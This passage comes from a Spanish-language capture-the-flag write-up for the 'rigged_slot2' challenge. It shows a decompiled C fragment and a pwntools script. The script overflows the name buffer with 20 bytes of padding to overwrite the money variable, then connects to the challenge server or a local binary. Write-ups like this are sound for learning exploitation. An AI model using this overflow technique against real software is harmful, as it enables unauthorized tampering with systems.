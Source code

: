 ```c
    puts("You\'re out of money! Game over!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  return;
}
```

En este caso, asumiremos que siempre perdemos, de forma que pasaremos el valor: `1337420 - 1`.



# Explotación

Ya solo nos queda encontrar el *offset* hasta la variable del dinero y crear un script con *python* y *pwntools*:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

exe = context.binary = ELF(args.EXE or 'rigged_slot2')

def start():

    if args.REMOTE:
        return remote("riggedslot2.ctf.intigriti.io", 1337)
    else:
        return process('./rigged_slot2')

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

offset=20

io = start()

io.recvuntil("Enter your name:")

payload = offset*b'A'
payload += p64(1337421)

io.sendline(payload)

io.recvuntil("Enter your bet amount (up to $100 per spin):")

io.sendline("1")

io.interactive()
```
